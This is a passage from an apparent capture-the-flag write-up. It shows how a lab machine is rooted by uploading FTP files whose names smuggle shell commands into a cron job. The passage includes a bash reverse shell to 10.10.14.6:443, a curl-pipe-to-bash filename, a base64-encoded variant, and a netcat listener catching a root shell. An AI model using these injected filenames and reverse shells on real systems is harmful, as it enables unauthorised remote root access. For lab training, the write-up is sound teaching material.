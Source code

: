One is to create a rev shell Bash script on my host and request it with `curl` and pipe it into `bash`. The only trick is I can’t use `/`, so I just need to make it the index file. On my host:

```

oxdf@parrot$ cat index.html 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/443 0>&1
oxdf@parrot$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Now I’ll upload the file:

```

ftp> put test.txt "|curl 10.10.14.6|bash; a.csv"
local: test.txt remote: |curl 10.10.14.6|bash; a.csv
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.

```

When the cron runs, I get the request:

```
10.10.10.249 - - [07/Jul/2021 16:31:04] "GET / HTTP/1.1" 200 -

```

And then the shell:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.249] 49596
bash: cannot set terminal process group (30460): Inappropriate ioctl for device
bash: no job control in this shell
root@pikaboo:/srv/ftp/types#

```

Alternatively, I could just base64 encode the command I want to run:

```

oxdf@parrot$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==

```

I’ll use that to create the filename:

```

ftp> put test.txt "|echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==|base64 -d|bash; a.csv"
local: test.txt remote: |echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==|base64 -d|bash; a.csv
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.

```

